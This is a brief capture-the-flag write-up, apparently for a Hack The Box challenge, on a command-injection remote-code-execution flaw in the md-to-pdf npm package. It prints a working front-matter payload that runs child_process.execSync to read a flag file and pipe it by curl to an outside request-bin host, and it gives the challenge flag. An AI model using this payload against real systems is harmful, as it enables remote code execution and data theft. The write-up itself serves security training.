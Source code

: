 ## Skills: JavaScript command injection RCE

In NodeJS applications, the list of packages used is listed in `package.json`. With [Snyk](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880) we can confirm a *remote code execution* (RCE) vulnerability with the `md-to-pdf` package.

You can send the flag to your domain, alternatively you can copy the flag file to the static folder and view it there.

Pre-CTF guide: in bash script, the output from one command can be piped (transferred) to another with the | symbol

My final payload:
```
---js
`${require("child_process").execSync("cat ../flag.txt | curl -X POST --data-binary @- https://requestbin.io/********")}`
---RCE OKAY
```

**Flag: HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}**
